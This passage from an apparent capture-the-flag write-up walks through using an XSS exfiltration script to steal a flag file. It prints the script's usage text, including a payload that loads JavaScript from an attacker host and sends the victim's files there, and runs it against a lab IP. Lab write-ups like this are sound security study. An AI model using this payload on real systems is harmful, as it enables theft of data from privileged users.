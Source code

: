 # Exploit

<span style="color: rgb(224, 62, 45);"><span style="color: rgb(255, 255, 255);">We can try to use Tyler Ramsbey script in JS and it will automatically catch the flag once the victim user click flag.txt :</span></span>

<img src="../../2%20-%20Resources/Others/Flameshots/7d021226144879cdd810f3c57a3a764b.png" alt="7d021226144879cdd810f3c57a3a764b.png" width="258" height="238" class="jop-noMdConv">

We download and make it executable with `sudo chmod +x xss-extract.py` and run it :

```
┌──(mdn0x㉿mdn0xKali)-[~/Scaricati]
└─$ python3 xss-extract.py -h   
usage: xss-extract.py [-h] -d DIRECTORY -i IP

This script will generate a malicious .js file. When this is used in an XSS attack, it will
cause the victim to navigate to the target directory and send the content to the attacker.
This is useful if the victim is an admin or privileged user with access to sensitive
information. Only use with permission. The XSS payload is <script src=http://[attacker-
ip]/script.js></script>

options:
  -h, --help            show this help message and exit
  -d, --directory DIRECTORY
                        Target Directory
  -i, --ip IP           Attacker IP Address

```

So we have the syntax for our flag :

```
┌──(mdn0x㉿mdn0xKali)-[~/Scaricati]
└─$ python3 xss-extract.py -d /flag.txt -i 10.10.16.67
JavaScript code has been written to script.js

```
